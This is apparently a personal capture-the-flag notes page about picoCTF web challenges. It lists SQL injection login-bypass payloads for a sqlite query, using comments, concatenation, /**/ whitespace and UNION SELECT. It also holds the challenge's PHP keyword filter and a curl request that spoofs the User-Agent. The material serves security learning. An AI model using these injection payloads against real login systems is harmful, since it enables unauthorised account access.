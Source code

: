 Find all instances of a text line files in current and all subdirectories

grep -r "test"


## SQL injection (sqlite)

`SELECT * FROM user WHERE username='<u>' AND password='<p>'`

Task is to login as admin (known username as `admin`) with the following restriction:

1. `or`
u: admin' --
p: (doesn't matter because commented out with --)

2. `or` `and` `like` `=` `--`

u: admin'; #
p: (doesn't materr because commented out with #)

3. `or` `and` `=` `like` `>` `<` `--` (I suspect also `#`)

u: admin';
p: (doesn't matter because statment has been ended)

4 `or` `and` `=` `like` `>` `<` `--` `admin` + common filters (whitespace!)

my idea: concat!

u: ad'||'min';
p: (doesn't matter because statement has ended)

alternative:

u: ad/\*\*/min';  (`ad/**/min';`)

u: blah'/\*\*/union/\*\*/select/\*\*/*/\*\*/from/\*\*/users/\*\*/limit/\*\*/1;
(`blah'/*\*/union/**/select/**/*/**/from/**/users/**/limit/**/1;`)

5. `or` `and` `=` `like` `>` `<` `--` `admin` `union` + common filters (whitespace!)

All Filters:

```php
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}
?>
```

## User-Agent control ##

one challenge in picoCTF has you click a button `flag` (leading to the `/flag` page) but clicking it gives "you're not picobrowser! 


I've seen this before, the referrer is what they're asking about. Here's the raw curl request:

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/28921/flag' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Mobile Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Referer: https://jupiter.challenges.picoctf.org/problem/28921/flag' \
  -H 'Accept-Language: en-US,en;q=0.9,fr;q=0.8,es;q=0.7' \
  -H 'Cookie: PHPSESSID=rinmbr5fv8gekg81vitj13cj5s' \
  --compressed
```
Deleting all the uneccesary garbage and changing the user-agent:

```bash
curl 'https://jupiter.challenges.picoctf.org/problem/28921/flag' \
  -H 'User-Agent: picobrowser' \
```

Full disclosure: I thought at first it was the referer, but that's involved with redirects. Random facts which may be useful. Whenever your security doesn't change or is upgraded (HTTP -> HTTP, HTTPS -> HTTPS, HTTP -> HTTPS) a referrer is tagged on. But whenever you downgrade (HTTPS -> HTTP) referrer coems back as empty. Another use for changing the user-agent is to have the interface change as if you were a mobile device (useful as a developer for sure)


Get header info with curl:

`curl -I http://mercury.picoctf.net:47967/`
